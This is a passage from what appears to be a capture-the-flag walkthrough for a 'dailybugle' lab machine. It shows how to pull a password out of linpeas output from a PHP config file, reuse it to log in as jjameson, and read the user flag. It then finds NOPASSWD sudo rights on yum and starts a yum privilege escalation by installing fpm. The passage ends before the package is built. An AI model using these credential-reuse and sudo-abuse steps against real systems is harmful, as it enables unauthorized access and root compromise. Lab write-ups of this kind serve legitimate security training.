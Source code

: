 Take a look to the linpeas output.

```bash
less -r linpeas_output.txt
```

After a lot of scrolling you will find the following line:

```bash
[+] Searching passwords in config PHP files
     public $password = '[REDACTED]';
```

This password was found by the script in a config file related to the web application.  
Try to access other accounts on the target machine using this password, you will find that you can access the **jjameson** account.

```bash
su jjameson
Password: [REDACTED]
whoami
jjameson
```

Now you can retrieve the user flag.

```bash
cd /home/jjameson
ls
user.txt
cat user.txt
[REDACTED]
```

Let's see what can you do with the jjameson user.

```bash
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

This output tells you that jjameson is allowed to run **yum** with sudo privileges without having to enter the password, you can exploit this to get root privileges.  
First install **fpm**, a packaging tool.  
It requires Ruby installed on your system and the specific steps may vary based on your Ruby version.

```bash
gem install dotenv -v 2.8.1
gem install fpm
fpm --version
1.15.1
```
